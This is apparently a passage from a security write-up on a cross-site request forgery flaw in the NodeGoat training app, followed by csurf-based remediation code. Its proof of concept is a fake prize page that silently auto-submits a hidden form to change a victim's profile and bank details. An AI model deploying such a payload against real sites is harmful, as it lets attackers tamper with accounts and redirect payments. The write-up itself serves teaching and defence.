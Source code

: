 ### Technical Impact
- **Confidentiality**: Low impact - CSRF itself doesn't directly compromise confidentiality
- **Integrity**: High impact - Attackers can perform unauthorized state-changing operations on behalf of victims
- **Availability**: No direct impact on availability

### Proof of Concept
```html
<!DOCTYPE html>
<html>
<head>
  <title>Win a Prize!</title>
</head>
<body onload="document.getElementById('csrf-form').submit()">
  <h1>Congratulations, you've won a prize!</h1>
  <p>Please wait while we redirect you to the prize claim page...</p>
  
  <!-- Hidden form that automatically submits -->
  <form id="csrf-form" action="http://nodegoat.example.com/profile" method="POST" style="display:none">
    <input type="hidden" name="firstName" value="Hacked" />
    <input type="hidden" name="lastName" value="Account" />
    <input type="hidden" name="bankAcc" value="9876543210" />
    <input type="hidden" name="bankRouting" value="12345#" />
  </form>
</body>
</html>
```

### Remediation

1. Uncomment and implement the CSRF protection code:
```javascript
// In server.js
const csrf = require('csurf');

// Enable Express csrf protection
app.use(csrf({ cookie: true }));

// Make csrf token available in templates
app.use((req, res, next) => {
    res.locals.csrftoken = req.csrfToken();
    next();
});
```

2. Update all forms to include the CSRF token:
```html
<!-- In form templates -->
<form method="POST" action="/profile">
  <input type="hidden" name="_csrf" value="{{csrftoken}}">
  <!-- Other form fields -->
</form>
```
